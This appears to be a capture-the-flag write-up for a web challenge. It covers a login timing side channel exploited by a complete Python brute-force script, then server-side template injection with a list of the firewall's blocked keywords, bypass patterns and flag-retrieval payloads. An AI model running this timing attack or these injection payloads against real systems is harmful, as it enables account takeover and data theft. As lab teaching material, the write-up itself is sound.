



**Description**

The application's entry point presents a modest login portal, yet its responses aren't quite as uniform as they first appear. Subtle variations betray a deeper inconsistency in how credentials are handled, hinting that each attempt might be revealing more than just "success" or "failure."

**Objectives**

* Probe the authentication gateway for any irregularities
* Leverage any discovered quirks to advance further into the application

---

**👤 Author**: *xtle0o0*

---

## Stage 1: Reconnaissance & Timing Attack Discovery

### Initial Analysis

The login function reveals a critical timing vulnerability in the admin authentication mechanism:

```python
if username == "admin":
    for i in range(min(len(password), len(stored_password))):
        if password[i] != stored_password[i]:
            error = "Invalid password"
            break
        else:
            time.sleep(0.1)  # ⚠️ Timing side channel!
```

**Key Observations:**
- Character-by-character password comparison for admin user
- 100ms delay (`time.sleep(0.1)`) for each correct character
- Password length: 20 characters (as hinted)
- Timing difference reveals correct characters progressively

### Exploitation Script

Here's a Python script to exploit the timing vulnerability:

```python
import requests
import string
import time

BASE_URL = "http://target:port"
LOGIN_URL = f"{BASE_URL}/login"
CHARSET = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}!"

def measure_response_time(session, password_guess):
   data = {"username": "admin", "password": password_guess}
   start = time.time()
   r = session.post(LOGIN_URL, data=data, allow_redirects=False)
   elapsed = time.time() - start
   return elapsed, r

def find_admin_password(known_prefix="", max_length=32):
   session = requests.Session()
   discovered = known_prefix
   position = len(discovered)
   
   print(f"Starting timing attack...")
   if discovered:
       print(f"Known prefix: {discovered}")
   
   while position < max_length:
       print(f"Testing position {position + 1}...")
       timings = {}
       
       for c in CHARSET:
           guess = discovered + c
           elapsed, resp = measure_response_time(session, guess)
           
           if resp.status_code == 302:
               print(f"SUCCESS! Password found: {guess}")
               return guess
               
           timings[c] = elapsed
           print(f"  {guess}: {elapsed:.4f}s", end='\r')
       
       best_char = max(timings, key=timings.get)
       best_time = timings[best_char]
       discovered += best_char
       position += 1
       
       print(f"\nBest char: '{best_char}' ({best_time:.4f}s)")
       print(f"Current guess: {discovered}")
       
       _, resp = measure_response_time(session, discovered)
       if resp.status_code == 302:
           print(f"SUCCESS! Password found: {discovered}")
           return discovered

   return discovered

if __name__ == "__main__":
   admin_password = find_admin_password()
   print(f"Final password: {admin_password}")
```

**Expected Timeline:** 5-8 minutes for complete password extraction



**Discovered Password:** `citeflagisthebest123`

## Stage 2: Post-Authentication Exploitation

### Server-Side Template Injection (SSTI)

After successful authentication as admin, the dashboard reveals a custom greeting feature vulnerable to SSTI:

### WAF Analysis & Bypass

The application implements a Web Application Firewall with specific blocked patterns:

**Blocked Patterns:**
- `\{\{\s*[0-9+\-*\/]+\s*\}\}` (Math operations)
- `config`, `__class__`, `__mro__`, `__globals__`
- `__subclasses__`, `__builtins__`, `__import__`
- `os\.environ`, `subprocess`, `eval`, `exec`

**Allowed Bypass Patterns:**
- `{{request.args.get('param')}}`
- `{{var|attr('attribute')}}`
- `{{'str1'~'str2'}}`
- `{{[].property}}`



### SSTI Exploitation Methods

#### Method 1: Direct Function Call (Simplest)
The application conveniently provides a `get_flag()` function in the template context:

```
?greeting={{get_flag()}}
```

#### Method 2: Self Dictionary Access
```
?greeting={{self.__dict__}}
```

#### Method 3: Environment Variable Access
```
?greeting={{environ.FLAG}}
```

### Flag Retrieval

Navigate to the dashboard with the SSTI payload:
```
http://target:port/dashboard?greeting={{get_flag()}}
```



The flag will be rendered in the custom greeting section of the dashboard.